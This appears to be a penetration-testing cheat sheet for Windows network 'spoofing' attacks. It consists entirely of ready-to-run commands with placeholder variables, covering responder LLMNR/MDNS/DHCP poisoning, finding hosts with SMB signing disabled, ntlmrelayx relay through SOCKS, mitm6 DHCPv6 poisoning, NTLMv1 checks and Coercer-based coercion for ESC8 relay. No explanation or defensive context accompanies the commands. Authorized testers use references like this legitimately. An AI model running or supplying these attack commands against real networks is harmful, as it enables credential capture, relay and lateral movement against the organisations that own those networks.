 # Spoofing

## LLMNR Poisoning - responder

```
responder-http-on
responder-smb-on
responder -I <interface> -d -w
```

= interface: enp0s31f6

## SMB signing disabled - nmap

```
nmap -Pn --script smb-security-mode -p445 <target>
```

= target: $TARGETS/computers.list

## SMB signing disabled - cme

```
cme smb <target> --gen-relay-list <output_file>
```

= target: $TARGETS/computers.list

## LLMNR/MDNS/DHCP Poisoning - responder

```
responder-http-off
responder-smb-off
responder -I <interface> -d -w
```

= interface: enp0s31f6

## NTLM Relay with SOCKS (SMB) - ntlmrelayx

```
ntlmrelayx -tf <targets_file> -socks -smb2support
```

= targets_file: $TARGETS/relay_targets.list

## DHCPv6 Poisoning - mitm6 

```
mitm6 --interface <interface> --domain <domain>
```

= interface: enp0s31f6
= domain:

## Check NTLMv1 - cme

```
cme smb <target> -d <domain> -u <user> -p <password> -M ntlmv1
```

= target: $DC
= domain: $DOMAIN
= user: $USER
= password: $PASSWORD

## Coercer - ESC8 / NTLMv1

```
coercer -d <domain> -u <user> -p <password> -l <listener> -t <target>
```

= domain: $DOMAIN
= user: $USER
= password: $PASSWORD
= listener: $MY_IP
= target: $DC